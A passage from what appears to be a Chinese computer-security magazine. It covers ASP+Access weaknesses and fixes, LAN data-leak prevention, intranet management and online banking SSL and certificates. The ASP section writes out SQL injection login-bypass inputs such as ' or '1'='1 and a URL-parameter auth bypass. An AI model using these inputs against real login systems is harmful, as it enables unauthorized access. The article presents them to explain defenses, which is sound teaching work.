在 ASP+Access 数据库应用系统中，如果获得或者猜到 Access 数据库的存储路径和数据库名称，则该数据库就可以被下载到本地。例如：对于网上书店的 Access 数据库，人们一般命名为 catalog.mdb、book.mdb 等，而存储的路径一般为“URL/database”或干脆放在根目录“URL/”下面。这样，只要在浏览器地址栏中敲入地址：“http://URL/database/catalog.mdb”，就可以轻易地把 catalog.mdb 下载到本地的机器中，通过查看数据库就可以很轻松地获取系统的重要数据，这就对系统的安全造成了极大的威胁。

##### 2.2 Access 数据库的解密隐患

由于 Access 数据库的加密机制非常简单，所以即使数据库设置了密码，解密也很容易。该数据库系统通过将用户输入的密码与某一固定密钥进行异或来形成一个加密串，并将其存储在 Access 数据库文件从地址“&H42”开始的区域内。由于异或操作的特点是“经过两次异或就恢复原值”，因此，用这一密钥与 Access 数据库文件中的加密串进行第二次异或操作，就可以轻松地得到 Access 数据库的密码。基于这种原理，可以很容易地编制出解密程序。

##### 2.3 源代码的安全隐患

由于 ASP 程序采用的是非编译性语言，它的基本工作原理是：当客户端用户用浏览器通过 Internet 来访问基于 ASP 脚本时，浏览器向 Web 服务器发出 HTTP 请求，Web 服务器通过 ISAPI 接口调用 ASP 脚本解释运行引擎 ASP.DLL，ASP.DLL 将从文件系统或内部缓冲区获取指定的脚本文件并解释执行。最终的处理结果形成 HTML 文件格式返回给浏览器，这就大大降低了程序源代码的安全性。任何人只要进入站点，就可以获得源代码，从而造成 ASP 应用程序源代码的泄露。攻击者可以分析系统的源代码，找出系统安全的薄弱环节进行攻击，从而对系统的安全造成极大的危害。

##### 2.4 跨越密码验证的安全隐患

在使用 ASP 开发网上应用系统时，系统与用户的交互功能是通过表单（Form）来实现的。而相应的内容会反映在浏览器的地址栏中，如果不采用适当的安全措施，只要记下这些内容，就可以绕过验证页面直接进入工作页面，从而造成非法用户的登录，威胁系统的安全。例如，在浏览器中敲入 `http://URL/password.asp?pwd=o`，即可不经过表单页面直接进入满足“pwd=o”条件的页面。因此，在设计验证或注册页面时，必须采取特殊措施来避免此类问题的发生，防止非法用户登录系统。

##### 2.5 程序设计中的安全隐患

在开发网上应用系统登录密码验证程序时，一般将用户名和密码存储到数据库中，在登录验证中用以下 SQL 语句来验证用户和密码：

```sql
sql="select * from user where username='"&username&"' and password='"&password&"'"
```

并且通过判断此 SQL 语句返回的记录集是否为空来确定用户是否具有登录权限。但这种验证方式存在一个漏洞：如果根据 SQL 构造一个特殊的用户名如：`username='hack' or '1'='1'` 提交，程序的数据库验证部分会产生这样一个 select 语句并交由 ASP 执行：

```sql
sql="select * from username where username='"&hack' or '1'='1&"' and password='"&password&"'"
```

or 是逻辑运算符，作用是在判断两个条件的时候，只要其中一个条件成立，那么等式就将会成立。而在语句中，是以 1 来代表真的（成立），那么在这行语句中，原语句的“and”验证将不再继续，而因为“1=1”和“or”使语句返回为真值。这样就可以使密码验证程序失效，造成非法用户的系统入侵。另外，如果构造以下的用户名：

```text
username='hack' or username<>'hack'
password='hack' or password<>'hack'
```

然后相应地在系统登录密码验证界面的用户名框内输入：`hack' or username<>'hack`，口令框内输入：`hack' or password<>'hack`（注意这两个字符串两头是没有 `'` 符号的）。同样，可以使密码验证程序失效，从而使非法用户顺利地登录系统。

#### 3．安全防范措施

针对 Browser/Server 模式的 ASP+Access 数据库系统存在的安全隐患，必须采取相应的安全措施提高系统的安全性。由于非编译 ASP 程序源代码的安全性较低，Access 数据库的加密机制又过于简单，因此如何有效地防止 Access 数据库被下载，就成了提高 ASP+Access 数据库系统安全性的重中之重。

##### 3.1 非常规命名法

防止数据库被下载的简便方法是为 Access 数据库文件起一个复杂的非常规名字，并把它存放在多层目录下。例如，对于网上书店的数据库文件，不要简单地命名为“catalog.mdb”或“book.mdb”，而是要起个非常规的名字，例如：`hjshfawliu.mdb`，再把它放在 `./dth/hyju/book1/book2` 之类的深层目录下。这样，对于一些通过猜的方式想到 Access 数据库文件名的非法访问方法能起到有效的阻止作用。

##### 3.2 使用 ODBC 数据源

在 ASP 程序设计中，应尽量使用 ODBC 数据源，不要把数据库名直接写在 ASP 程序中，否则，数据库名将随 ASP 源代码的失密而一同失密。例如，数据库名直接写在 ASP 程序中：```vb
DBPath=Server.MapPath("./drgt/sdgsh6/vvfi/bokk5/jgkdjkgsjr.mdb")
conn.Open "driver={Microsoft Access Driver(*.mdb)};dbq=" & DBPath
```

可见，即使数据库名字起得再怪异，隐藏的目录再深，ASP 源代码失密后，数据库也很容易被下载下来。如果使用 ODBC 数据源，就不会存在这样的问题：

```vb
Set conn = Server.CreateObject("ADODB.Connection")
conn.Open "DSN=users"
```

其中，users 只是数据源的名字，非法用户无法通过数据源名确定 Access 数据库的原名及存放位置，从而提高了数据库的安全性。

##### 3.3 对 ASP 页面进行加密

为有效地防止 ASP 源代码泄露，可以对 ASP 页面进行加密。一般有两种方法对 ASP 页面进行加密，一种是使用组件技术将编程逻辑封装入 DLL 库中；另一种是使用微软的 Script Encoder 对 ASP 页面进行加密。

使用组件技术将数据库连接用户名和密码进行封装，优点是系统安全性高；缺点是每段代码均要组件化，操作比较烦琐，工作量较大；使用 Script Encoder 对 ASP 页面进行加密，操作简单，效果也不错。

使用 Script Encoder 加密 ASP 脚本具有许多优点：

- 1. HTML 具有很好的可编辑性

Script Encoder 只加密在 HTML 页面中嵌入的 ASP 代码，其他部分仍保持不变，这就使得我们仍然可以使用 FrontPage 或 Dreamweaver 等常用网页编辑工具对 HTML 部分进行修改、完善，只是不能对 ASP 加密部分进行修改，否则将导致文件失效。

- 2. 操作简单

只要掌握几个命令行参数即可。Script Encoder 的运行程序是 screnc.exe，其使用方法如下：

```bash
screnc [/s] [/f] [/xl] [/l defaultLanguage] [/e defExtension]
inputfile outputfile
```

- 3. 可以批量加密文件

使用 Script Encoder 可以对当前目录中的所有 ASP 文件进行加密，并把加密后的文件统一输出到相应的目录中。例如：

```bash
screnc *.asp c:\temp
```

对跨越密码验证及程序设计中的安全隐患采取如下的防范措施：

##### 3.4 用 Session 对象进行注册验证

为防止未经注册的用户绕过密码验证界面直接进入应用系统，可以采用 Session 对象进行注册验证。Session 对象最大的优点是可以把某用户的信息保留下来，让后续的网页读取。如果在密码验证程序中设置一 Session 对象并赋值，并且进入应用程序后，首先对密码验证程序中设置的 Session 对象进行验证，若 Session 对象为空或验证值错误，则可以确定这是非法登录，系统可拒绝其登录应用程序。此外，为防止黑客利用一个合法的账号或在本机上生成一个虚假的 Session 对象欺骗系统验证程序，可在采取 Session 对象进行注册验证的同时，跟踪认证页面文件名的方法解决这一问题，只有从密码验证程序页面转过来的登录请求才予处理，其他一律拒绝服务。

##### 3.5 密码验证程序设计中的安全隐患解决方案

在 ASP 验证页面中增加数据预处理和参数结果的补充验证程序，对用户输入的 `" ' `等符号进行检测过滤。

## 4. 结束语

基于 Browser/Server 模式的 ASP+Access 数据库系统，由于其结构简单、使用维护方便而成为许多中小型企业开发网上应用系统的首选方案。但 ASP+Access 系统在为我们带来便捷的同时，也带来了不容忽视的安全问题，如何保护基于 ASP 开发的网络系统，已经成为当前网络需要解决的迫切问题。本文就 ASP+Access 开发的应用系统存在的安全问题从几个方面进行了探讨，并提出了相应的解决方案，供广大编程爱好者参考。

### 计算机局域网的信息安全保密解决方案

文／王廷永

## 1. 引言

随着网络应用的不断发展，Internet 正在越来越多地融入到社会的各个方面。我国的计算机网络，特别是局域网技术发展最为迅速，许多大专院校、科研院所以及军队、银行、公安、邮电、铁路、石油等要害部门都建立了自己的局域网。网络数据信息的安全保密问题日益成为与国家安全、政府、企业、个人的利益休戚相关的“大事情”。信息安全保密能力是新世纪一个国家综合国力、经济竞争实力和生存能力的重要组成部分，如何做好计算机局域网的信息数据安全保密工作，已经成为我们面临的重要课题。这个问题解决不好，不仅将对我国的国家安全、军队建设、经济、文化等方面造成极大的危害，而且使用户不敢在网上处理涉密信息，网络的作用将得不到充分发挥。因此，开发和运用有效的局域网信息安全保密措施，竖起坚实的保密防护网，无论现在还是将来都具有十分突出的现实意义。

信息安全保密防护方面有 3 大弱点：

- 1. 数据的可访问性。数据信息可以很容易被终端用户拷贝下来而不留下任何痕迹。
- 2. 信息的聚生性。当信息以零散形式存在时，其价值往往不大，一旦网络将大量关联信息聚集在一起时，其价值就相当可观了。
- 3. 设防的困难性。尽管可以从技术上层层设防，但对熟悉网络技术的人员来说，突破这些关卡并不十分困难，这就给保密工作带来极大的威胁。

## 2. 计算机局域网信息泄密的主要途径

计算机局域网由信息（存储在计算机及其外部设备上的程序及数据）和实体两大部分组成，因此信息泄密和局域网实体泄密是计算机局域网信息泄密的主要途径。

##### 2.1 信息泄密

信息泄密是局域网的主要保密隐患之一。所谓信息泄密，就是被故意或偶然地侦收、截获、窃取、分析、收集到系统中的信息，特别是秘密信息和敏感信息，从而造成泄密事件。

##### 2.2 局域网实体泄密

局域网实体是指实施信息收集、传输、存储、加工处理、分发和利用的计算机及其外部设备和网络部件。它的泄密渠道主要有 4 个：

- 1. 计算机电磁波辐射泄密。计算机辐射主要有 4 个部分：显示器的辐射；通信线路（连接线）的辐射；主机的辐射；输出设备（打印机）的辐射。计算机设备工作时辐射出的电磁波，任何人都可以借助仪器设备在一定范围内收到它，尤其是利用高灵敏度的仪器可以稳定、清晰地看到计算机正在处理的信息。另外，网络端口、传输线路等都有可能因屏蔽不严或未加屏蔽而造成电磁泄露。接收或解读计算机辐射的电磁波，现在已成为国外情报部门的一项常用窃密技术，并已达到很高的水平。
- 2. 非法终端泄密。非法用户有可能在现有终端上并接一个终端，或趁合法用户从网上断开时乘机接入，使信息传到非法终端。
- 3. 搭线窃取。局域网与外界连通后，通过未受保护的外部线路，可以从外界访问到系统内部的数据，而内部通信线路也有被搭线窃取信息的可能。
- 4. 计算机存储媒体泄密。计算机的存储器分为内、外两种存储器，内存储器要求存取速度快，外存储器则要求存储容量大。如前所述，存储在内存储器的秘密信息可通过电磁辐射或联网交换被泄露或被窃取，而大量使用磁盘、磁带、光盘的外存储器很容易被非法窃取或复制。由于磁盘经消磁十余次后，仍有办法恢复原来记录的信息，存有秘密信息的磁盘被重新使用时，很可能被非法利用磁盘剩磁提取原记录的信息。计算机出故障时，存有秘密信息的硬盘不经处理或无人监督就带出修理，就会造成泄密。

## 3. 计算机局域网的信息保密对策

针对局域网信息泄密的主要途径，信息保密的防范措施主要从以下几个方面着手：

##### 3.1 信息泄密防护对策

- （1）身份认证。身份认证是通信双方在实质性数据传输之前进行审查和证实对方身份的操作。身份认证可以在用户登录时进行，也可以贯穿于数据传输的过程中。在允许用户进入计算机网络系统之前，必须进行严格的身份认证。身份认证可以采用普通口令系统、一次性口令、使用磁性卡片及指纹、声音、视网膜图像等生理特征鉴别认证措施。
- （2）充分利用网络操作系统提供的保密措施。由于某些用户对网络的认识不足，基本不用或很少使用网络操作系统提供的保密措施，从而留下隐患。其实，一般的网络操作系统都有相应的保密措施，以 Windows 2000 Server 为例，可以进行用户名登录注册，设置登录密码，设置目录和文件访问权限和密码，以控制用户只能操作什么样的目录和文件，或设置用户级访问控制，以及通过主机访问 Internet 等。
- （3）防止黑客程序入侵。黑客程序的破坏力相当强大，不但可以操纵计算机，还可以窃取计算机中的所有数据。常见的黑客工具有监听程序、“特洛伊木马”程序等。为防止黑客程序入侵，必须针对不同黑客程序的攻击特点进行破解和防范。

  - 不要轻易安装一些来历不明的程序；
  - 不要打开一些可能有问题的文件（特别是未知的电子邮件附件）；
  - 进行网络隔离，根据功能、保密水平、安全水平等要求的差异将网络进行分段隔离，实现更为细化的安全控制体系，将攻击和入侵造成的威胁分别限制在较小的子网内，提高网络整体的安全水平；
  - 采用防火墙技术；
  - 留意自己微机的“表现”，如运行速度和上网速度的变化，以便及时觉察到不速之客的入侵。

- （4）涉密信息加密。加密是提高计算机网络中信息的保密性、完整性，防止信息被外部破解所采用的主要技术手段，也是最可靠、最直接的方案。在涉密计算机网络的出入口处设置用于检查信息加密情况的保密网关，对内部网对外出的电子文件，规定必须加保密印章标识，并对其进行检查和处理，无密级的文件才允许出关。
- （5）网上信息内容的保密检查。为了了解网络用户执行保密法规制度的情况，及时发现泄密问题，必须加强对网上信息内容的保密检查。
- （6）审计跟踪。审计是记录用户使用计算机网络系统进行所有活动的过程，它是提高安全保密性的重要工具。计算机网络系统应有详细的系统日志，记录每个用户的每次活动（访问时间和访问的数据、程序、设备等），以及系统出错信息和配置修改信息。

##### 3.2 局域网实体泄密防护对策

对于局域网实体泄密采取的相应保密措施一般有以下几种：

- （1）防电磁辐射泄密。如用屏蔽室把网络信息设备与周围隔离，防止电磁波向屏蔽室外泄漏；选用低辐射设备，将电磁辐射减小到规定的强度，使窃收信息成为不可能；以电磁波的形式对网络信息设备电磁泄漏发射进行干扰，使窃收方不能提取有效信息。
- （2）定期对实体进行检查。特别是对文件服务器、光缆（或电缆）、终端及其他外设进行保密检查，防止非法侵入。
- （3）加强对网络记录媒体的保护和管理。如对关键的涉密记录媒体要有防拷贝和信息加密措施，对废弃的磁盘要有专人销毁等。
- （4）防止存储介质恢复泄密，可以使用专用的彻底删除工具软件，如“Clean Disk Security”，它可以把不再保留的涉密文件彻底删除；为防止已格式化的硬盘泄密，如在微机送修之前，要将保存有涉密文件的硬盘进行低级格式化，以确保将硬盘上的数据彻底清除。
- （5）使用密码：设置开机密码、设置屏保密码、设置文件密码都是有益的一些保护措施，但也不能对密码的有效程度过分信赖，因为对于专业人员来说这些密码都是很容易被破解的。

#### 四、结束语

保密工作历来是我们各项工作中的重中之重，从某种意义上可以说，网络的生命在于其保密性。开发和运用有效的局域网信息保密措施是实现网络信息安全保密的前提，具有十分重要的意义。随着网络技术的不断发展，局域网的信息保密也不断面临着新的威胁，我们必须根据新情况，不断研究新问题，采取新措施，确实做好计算机局域网的信息保密工作，以充分发挥计算机网络在我国现代化建设中的重要作用。

### 第三只眼看 Intranet

文／刘志勇

现在随着信息化在管理中越来越深入使用，多数政府机关、金融机构、厂矿企业等也拥有了自己的 Intranet，信息管理的内部网络也将负责整个单位内部与内部之间、内部与外部之间大部分信息的流通。

互联网在中国已经发展起来，各企业的网络从无到有，逐渐发展和完善起来。但是目前很多企业拥有的并不是很庞大很完善的网络。现在有许多网络集成商也纷纷推出了自己的 Intranet 解决方案。在本文中，笔者不准备探讨各种 Intranet 方案的孰优孰劣，只打算以一个普通用户的角度，来窥视企业 Intranet 普遍存在的问题。

就拿某家企业的 Intranet 来说，可以视为一个比较典型的企业网。该单位有着近 30 年的历史，是一个隶属于知名国有大型企业的子公司。由于历史的原因，早年布局没有进行统一的规划，导致办公楼房分布比较零散。而一般的 Intranet 解决方案只考虑到楼宇间的布线，对于办公室的布线没有很好的规划。由于建筑物建造年代相当久远，当时中国还没有网络、智能大厦等概念，所以普通网络规划做得不完善。有些办公室由于面积小，没有从长远性考虑，只布了一个信息点，而该办公室由于某种原因后来放置了两台计算机，就不得不在墙上打眼另拉一根网线，或者又被安装一个 Hub，而 Hub 一般最少也是八口的，5 个口闲置造成资源的浪费。办公室里的电脑桌放置因为离信息端子比较远，又不愿意挪动办公室家具的位置，就叫网管为他做一根很长很长的网线。而网线长度越长，则信号衰减就越厉害。这种情况下，办公室走线的方法五花八门，有的拉一根很长很长的网线，有的捆成一团，有的干脆直接放在地上而没有埋入线槽，这样一来，网线被踩的机率就大大增加了，这样会造成网线的损坏，造成网络时断时通。有些员工为了视觉上的美观，将网线与照明线路捆在一起，因为交流电的电气特性，所以存在谐波干扰，会造成网线信号衰减失真，导致网络效率低，引起资源的浪费。有些部门使用 Hub 集线器来连接多台计算机，这样会造成网络数据的泛播，引起网络数据的泄密甚至广播风暴。应该使用交换机杜绝这些潜在风险，况且交换机的价格已经大幅度下降了。我认为，企业在规划布线的时候应该从长远计议，敢于下大本钱去投资，每个办公室的信息接入点宁多勿滥，统一布局，而且，电脑桌要统一规划放置。

安全问题一直是 Internet 的头等问题，如已经泛滥的病毒、黑客活动等等，不幸的是，Internet 上的问题在企业 Intranet 也得到了“克隆”。企业 Intranet 的安全问题也决不能掉以轻心。根据 IDG 对 Intranet 安全的分析得出，最普遍的安全问题还是来自内部，并且都是致命的，破坏性远远大于来自外部的入侵和破坏。实际情况确实如此。

就企业 Intranet 而言，更多潜在的安全风险还是来自企业 Intranet 内部，包括内部人员的泄密、病毒泛滥、网络嗅探、物理上的安全威胁等等。即使该企业已使用网关或防火墙之类的网络设备将 Intranet 和 Internet 相连起来，也仍然会“祸起萧墙”。相当多的单位由于财政或预算或决策层认识不足的问题，并没有直接将 Intranet 连接到 Internet，按说这种情况下安全问题应该好一些。可是，实际情况恰恰相反，这种状况下所带来的潜在安全风险更大。因为员工为了上 Internet，会私下添置 Modem。并且由于科室众多、员工自觉性和安全意识薄弱的问题，强制企业每一台计算机都安装某种软件，在没有完善的行政管理手段和监督制度的情况下似乎不太可能。于是形成了系统软件版本繁多的局面，单机版的防火墙和防病毒所提供的安全屏障都是很脆弱的，况且由于很多原因，如不能上网更新或不积极主动更新，故很多时候这些防火墙规则库和防病毒库并不是最新的版本，更有甚者，有些员工干脆关闭了防病毒和防火墙。这样，一旦私下用 Modem 连上 Internet，如果不幸“引进”网络蠕虫病毒的话，那么这个企业 Intranet 就会在极短的时间成为蠕虫泛滥重灾区。这一点，笔者是深有体会的，当年尼姆达、SirCAM、VBS/KJ 等蠕虫病毒在企业 Intranet 大面积爆发，屡杀不绝的情景仍然历历在目。最后笔者费了九牛二虎之力才得以控制已经在企业网泛滥的疫情。后来在这家企业中部署了网络版的防毒墙 Symantec Norton 企业版，因为这个防毒墙采用 C/S 模式，只要服务端经常连上 Internet 保持更新病毒库，那么客户端就自动从服务端更新，不必每个工作站都自行更新病毒库，从而有效地防止了此类病毒的大面积爆发。具有这种特性的网络版杀毒软件据笔者所知还有趋势的 TMSS、McAfee 的 ePO 等等。另外，也有一些爱好计算机的员工在企业网上滥用各种特洛伊木马和各种各样的黑客工具，如嗅探器之类的工具，其会给网络带来很高的负荷，并且会带来安全问题。为防范嗅探器，应该采取对网络进行分段，如在交换机上设置 VLAN 等手段。

通常情况下，企业 Intranet 所提供的网络服务多种多样，计划内一般有文件共享、打印机共享、FTP、E-mail、Web、NNTP、MS SQL 等等，但由于有些爱好计算机的员工也在企业网上自建了很多设计外的网络服务和应用，如 CS 服务器、星际、红警、VOD 视频点播服务器或流媒体服务器等等充斥着网络，使得网络负担加重，并且分散的网络服务带来了低下的效率和盲目的管理，造成了网络资源的浪费，也对网络的正常使用和运行带来了不可预料的危害。这时有效的行政管理就显得很重要了。

在日益庞大的企业网中，从长远来看，在企业网内动态分配 IP 地址根本是不现实的，IP 地址的分配应本着“合理规划，预留扩展，顺序分配，便于管理”的原则，尽可能按照科室（部门）或用户集来分配 IP 地址，并且为每个科室（部门）或用户集预留恰当的扩展空间。由此可见，IP 地址的分配也是网络建设和管理的一个重要问题。

企业网的建设不光是硬件方面的，也应该包含软件方面、网络功能、管理方案等等。这些都是有机而不可分割的。网络建设和更新速度与企业对网络的要求增长速度之间的矛盾，就是目前企业普遍存在的主要矛盾。

在很多国有企业中，除了决策层有些领导不重视网络的应用以外，还有很多员工（尤其是岁数稍大一些的）普遍缺乏计算机网络的基础知识，导致在网络使用过程中经常造成不必要的麻烦。据估计，由于客户端的原因和其他很简单的问题造成网络无法使用的原因占了 90% 以上。计算机网络基础的普及应该是当前企业培训的一个重要内容。

企业网的建设和管理并不仅仅是计算机管理员的事情，它是需要整个企业自上到下全体员工都要共同参与、共同面临的。

最近几年，国外媒体经常有关于网上银行发生储户账号被黑客盗用的新闻报道，有些严重的还造成银行系统崩溃的事件。在国内，公众对网上银行的安全情况并不很了解，普遍抱敬而远之的态度。但网上银行作为进一步推动用户对自己的财务管理便捷化的手段，其发展是必然的，为此，黑防特刊出本文，以引导用户对网上银行的更多认知。

### 个人网上银行安全问题初谈

文／mwenhua

#### 一、引言

因为频繁出现的黑客事件和无处不在的病毒的存在，许多人对 Internet 总有一种不安全的感觉，对近几年来刚刚出现的网上银行更是有很多的担心。而网上银行与传统柜台式的银行相比较，其优势非常明显，而且目前我们国家的网上银行经过国内和国外各权威机构的测定，认为是比较安全可靠的。但是对于我们国家众多的网民来说，网上银行还很陌生，许多朋友对网上银行及其安全性并不是很了解，因此本文试图对什么是网上银行、网上银行的安全将会受到哪些挑战、SSL 安全通信、什么是数字证书、密钥与 SSL 和数字证书之间的关系、其他的安全措施等等这几方面的问题进行某些归纳并给予讨论。

#### 二、什么是网上银行

先让我们来了解一下什么是“网上银行”。由于“网上银行”是新的事物，所以常常在不同的新闻中会有不同的描述，我们可以这样来粗略地概括它：网上银行，英文是 Internet Banking，是银行为其客户提供银行服务的新手段，它以现有的银行业务为基础，利用 Internet 技术为客户提供综合、统一、安全、实时的金融服务。客户通过互联网上虚拟的银行柜台，可以不受空间、时间的限制，只要一台电脑、一根电话线，就可以享受每周 7 天、每天 24 小时不间断的银行服务。它又分为几大类，有“企业网上银行”、“个人网上银行”等银行服务，而且不同种类的网上银行服务的安全等级是不同的，比如“企业网上银行”的安全等级就要比“个人网上银行”的安全等级要高。我国最早的“网上银行”只不过是银行的一个网站，并非现在这种互动式的银行。真正的网上银行兴起于 1998 年，是由中国银行最早开办。目前，我国各大商业银行包括香港恒生银行等在内地纷纷开办网上银行，使得我国的网上银行正逐步地进入其“成熟期”。

#### 三、普通的安全手段

网上银行面临的极其重要和复杂的问题就是安全问题。安全问题不仅存在于我们国内，在欧美等国家也是优先考虑的问题之一。我国有多种手段可以保障网上银行的安全性，目前我国的网上银行的安全性不亚于国外银行，在技术上中国的各个
```

网上银行已经与国外网上银行几乎相差无几，国内银行所用的技术是经得起考验的，而且中国的网上银行在有些方面还要更加安全可靠一些。下面我们将讨论网上银行可能会面临哪些安全挑战，以及网上银行采用普通的安全手段都有哪些问题，逐一说明。

## 1. 网上银行受到哪些挑战

由于网上银行背景的特殊，因此更容易受到关注。网上银行将会面临所有网站一样的安全问题，包括网站的安全漏洞、报文挟持攻击（嗅探攻击）、报文欺骗，甚至拒绝服务攻击等等各种各样的麻烦。其中，入侵和拒绝服务是针对网站的攻击，但是由于网上银行是互联网中比较敏感的网站，因此网上银行的网站往往有相当强的保护，一般的入侵者针对网上银行服务器入侵几乎是不可能的；而拒绝服务攻击只能造成网上银行的服务器暂时无法访问，并不会造成数据的修改与破坏，而且目前各家网站尤其金融站点的数据库均采取了多级防火墙和网络检测等安全措施，因此网上银行网站常规下还是相对难以攻破的。然而，仅仅保障网站不能被入侵是远远不够的，安全专家还要考虑客户端与服务器之间传输的信息不被窃取，并且保证传输的数据不被其他人修改等篡改问题。

考虑到易用性、可移植性、跨平台性等因素，网上银行的服务器程序一般采用应用于客户／服务器模型的 SSL，再通过辅以数字证书认证、数字签名技术、信息加密等手段保证用户身份的不可否认性和信息的惟一性，从而保障用户利益。

## 2. 使用 SSL 安全通信

在一些专业级别的介绍网络安全的文章里常常提到 SSL：安全套接层 SSL（Secure Socket Layer）是网景公司首先采用的一种网络安全协议。安全套接层是对计算机之间整个会话进行加密（有关加密和密钥的内容我们将在后面的内容提到）的协议，它是介于 HTTP 和 TCP 之间的一个可选层。当我们在向网上银行服务器发送敏感信息时，为了预防这些信息在发送过程中被其他人窃取，SSL 承担起了将网页和服务器之间传输的数据进行加密的任务。作为网络保密通信的一种工业标准，安全套接层在 client/server（客户／服务器）或者 Browser/server（浏览器／服务器）构架下广泛用于处理比如财务等敏感的信息。其中，128-bit SSL 认证是目前国际公认的商用互联网信息交互加密机制，同时其可靠性也基本得到了认可。国内一些网上银行，例如中国工商银行就是采用 128-bit SSL 安全认证作为其网上银行的重要安全措施来保障通信安全。

举例说明，当我们进入中国工商银行主页的“个人网上银行”连接页面时，网站弹出安全警报对话框（图1），告知我们即将通过安全的方式查看网页。其中所谓的安全连接是网站服务器试图与我们使用的浏览器之间建立起一个加密通道，可以使数据在传输途中进行安全处理。点击“确定”，浏览器和 Web 服务器之间交换的所有信息都已经被加密了，传输的过程是受密钥保护的，而对用户则是完全透明的，所以我们根本就不需要懂得怎么样去加密解密，HTTP 协议和 SSL 协议已经为我们完成了加密解密的全部过程。



这个时候我们便进入了“个人网上银行”用户登录页面，IE 状态栏的锁定位置显示小锁形图标，如图。双击锁定的图标，我们将会看到有关的证书的信息，同时也能看到整个证书链（图2）。

## 3. 什么是数字证书

上面我们提到了证书，这里讲的证书有点像我们平时所说的奖励证书、学位证书……这些都是可以起到证明作用的，只是它看不见、摸不着，是一组特殊数据。基于数字证书的电子认证技术，可以解决系统用户身份识别、数据安全、数据完整和历史行为不可抵赖等安全问题，网上银行数字证书认证采用 PKI 技术，为我们在网上银行交易时提供以下安全保障：



图2

- 银行身份的正确性
- 确认用户身份
- 交易信息的保密性与完整性

这些要求都可以通过 CA 认证的方式来解决，CA 认证中心签发的数字证书能够有效地标识和确认身份，保障重要交易信息不会在 Internet 上传送时被篡改或窃取，从而保证网上银行服务的安全性和可靠性。

那么什么是 CA 呢？

CA 为电子商务服务的证书中心，是 PKI（Public Key Infrastructure，公共密钥基础设施）体系的核心。CA 中心为每个使用公开密钥的客户发放数字证书，数字证书的作用是证明证书中列出的客户合法拥有证书中的公开密钥。CA 机构的数字签名使得第三者不能伪造和篡改证书。它负责产生、分配并管理所有参与网上信息交换各方所需的数字证书，因此是安全电子信息交换的核心。对于使用证书机制的安全通信，各机构（通信端）的密钥产生、发放与管理维护，都是由 CA 中心来完成。因此密钥并非由我们访问的网上银行发放，而是由第三方权威性、公正性、惟一可信任的机构 CA 来完成的。

## 4. 安全套接层、数字证书和密钥之间的关系

由于密钥是网络中一门重要的学科——密码学（cryptography）的基础概念，所以这里我们并不涉及到许多专业的背景知识。

